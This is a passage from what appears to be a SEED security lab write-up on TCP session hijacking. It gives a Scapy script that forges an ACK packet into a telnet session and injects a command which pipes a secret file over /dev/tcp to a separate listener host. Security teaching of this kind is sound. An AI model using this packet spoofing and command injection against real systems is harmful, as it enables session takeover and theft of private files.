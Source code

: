 
Construct the spoofed packet using [`sessionhijack.py`](./sessionhijack.py):

```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.0.2.4")
TCPLayer = TCP(sport=57644, dport=23, flags="A",
               seq=1727979557, ack=435127836)
Data = "\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

It also can steal the secret file:

![](./hijack_2.png)
